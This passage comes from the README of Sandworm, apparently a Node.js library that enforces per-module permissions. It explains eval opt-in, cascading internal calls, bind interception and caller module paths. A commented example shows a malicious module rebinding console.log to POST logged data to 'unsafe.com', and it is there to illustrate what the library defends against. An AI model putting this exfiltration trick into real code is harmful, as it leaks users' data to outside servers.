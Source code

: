 Setting `permissions: true` within a module descriptor will give that module (or call path) permissions to invoke any Sandworm-supported method **except** for a set of particularly unsafe ones that allow for arbitrary code execution - like `eval` or `vm.runInContext`. Using these methods carries a considerable security risk and should generally be avoided. Rigorously audit the code of a module that uses these before using it in your app.

However, suppose you do choose to give your app's code (or any specific caller) access to all underlying APIs **as well as** arbitrary code execution methods. In that case, you need to explicitly change your `permissions` from `true` to `['eval.eval', '*']` to acknowledge that you accept this high-risk configuration.

#### Node Cascading Calls

Some Node APIs internally call other APIs as part of their operation. For example:

* when loading local files, `require` uses several `fs` methods as well as `vm.compileFunction`;
* `https.require` uses `dns.lookup` and `tls.Socket`.

To support this, Sandworm will automatically allow the execution of any method calls where the direct caller is part of Node's internal sources. This would indicate that:

* another Node API has been previously invoked, resulting in the current cascading call;
* either the previous call has been captured and allowed by Sandworm;
* or it was not part of Sandworm's library, and thus deemed safe for free use.

#### `bind` Calls

For all intercepted methods, Sandworm will also capture and enforce access to `method.bind` **whenever it is called with more than one argument**. The reason behind this is that using `bind` to partially apply arguments creates contained methods that can then float around until they get executed by another module. For example:

```javascript
// Say we're a module that doesn't have `https.request` access
// but we want to post some stolen data to our server.
// We can create a custom method with the proper arguments using `bind`
// and then we can use it to replace a common js function.
// Sandworm will require the `bind.args` permission to allow this.
console.log = https.request.bind(this, {
  hostname: 'unsafe.com',
  port: 443,
  path: '/ingest',
  method: 'POST'
});

// Now we just wait for root to log anything
```

### Caller Module Paths

Sandworm-detected module names reflect the entire code path that led to invoking a method, from your app's level down to the actual module executing the method.

Let's say your app imports a module named `test-libB`, which depends on a method from a separate module, `test-libA`, which in turn ends up using `axios` to make an HTTP request. Internally, `axios` uses the `follow-redirects` module as a drop-in replacement for Node's `http` and `https` modules that automatically follows redirects. In this case, you should expect to see the following module name requesting to use the `https.request` permission:


[npm-version-image]: https://img.shields.io/npm/v/sandworm?style=flat-square
[npm-version-url]: https://www.npmjs.com/package/sandworm
[license-image]: https://img.shields.io/npm/l/sandworm?style=flat-square
[license-url]: https://github.com/sandworm-hq/sandworm-js/blob/main/LICENSE
[ci-image]: https://img.shields.io/circleci/build/github/sandworm-hq/sandworm-js?style=flat-square
[ci-url]: https://app.circleci.com/pipelines/github/sandworm-hq/sandworm-js
[cc-image]: https://api.codeclimate.com/v1/badges/edff60f7f06bb0c589aa/maintainability
[cc-url]: https://codeclimate.com/github/sandworm-hq/sandworm-js/maintainability
[coverage-image]: https://api.codeclimate.com/v1/badges/edff60f7f06bb0c589aa/test_coverage
[coverage-url]: https://codeclimate.com/github/sandworm-hq/sandworm-js/test_coverage